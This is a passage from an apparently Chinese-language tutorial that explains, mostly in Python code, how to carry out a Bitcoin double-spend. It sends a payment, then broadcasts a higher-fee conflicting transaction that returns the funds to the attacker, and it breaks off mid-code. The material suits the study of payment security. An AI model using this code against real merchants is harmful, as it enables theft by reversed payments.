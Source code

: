 如果输入值小于输出值，则选择新的未用完交易输出用于花费。为新选择的未用输出创建交易输入，并且将金额添加到交易输出变化中。每次对事务进行签名以更新`scriptSig`,以便在每次迭代中更新事务的大小:

```
    if value_in - value_out < 0: 
        new_outpoint = unspent[-1]['outpoint'] 
        new_amount = unspent[-1]['amount'] 
        unspent = unspent[:-1] 

        print('Adding new input %s:%d with value %s BTC' % \ 
        (b2lx(new_outpoint.hash), new_outpoint.n, 
        str_money_value(new_amount))) 

        new_txin = CMutableTxIn(new_outpoint, nSequence=tx1_nSequence)
         tx.vin.append(new_txin) 

        value_in += new_amount 
        change_txout.nValue += new_amount 
        value_out += new_amount 

        r = rpc.signrawtransaction(tx) 
        assert(r['complete']) 

        tx.vin[-1].scriptSig = r['tx'].vin[-1].scriptSig 
```

在将事务发送到网络之前，该事务最终被再次签名。理想情况下，该事务仅发送到竞争攻击中的受害节点。我们在本例中广播了该交易，因为我们将通过为双重花费交易创建更高的优先级来替换该交易:

```
r = rpc.signrawtransaction(tx) 
assert(r['complete']) 
tx = CMutableTransaction.from_tx(r['tx']) 

print('Payment raw transaction %s' % b2x(tx.serialize())) 
print('Payment raw transaction size: %.3f KB, fees: %s, %s BTC/KB' % \ 
             (len(tx.serialize()) / 1000, 
              str_money_value(value_in-value_out), 
              str_money_value((value_in-value_out) / len(tx.serialize()) * 1000))) 

txid = rpc.sendrawtransaction(tx) 
print('Sent payment with txid: %s' % b2lx(txid)) 
```

# 创建重复消费的交易

可重复消费的交易与第一笔交易具有相同的价值，但是具有不同的接收方地址。通过将整个资金返还给攻击者来逆转资金转移。除了携带变化的事务输出之外的所有事务输出都从事务中移除。由于更改交易输出是发给攻击者的，所以整个资金值都被分配给这个输出交易。

使用与前面类似的过程来计算整个交易的费用。在计算交易费用时，使用较高的每字节交易费用`feeperbyte2`:

```
tx.vout = tx.vout[0:1] 
change_txout = tx.vout[0] 
value_out = value_in 
change_txout.nValue = value_out 

while (value_in - value_out) / len(tx.serialize()) < feeperbyte2: 
    delta_fee = math.ceil((feeperbyte2 * len(tx.serialize())) - (value_in - value_out)) 

    if change_txout.nValue - delta_fee > dust_amount: 
        change_txout.nValue -= delta_fee 
        value_out -= delta_fee 

    if value_in - value_out < 0: 
        new_outpoint = unspent[-1]['outpoint'] 
        new_amount = unspent[-1]['amount'] 
```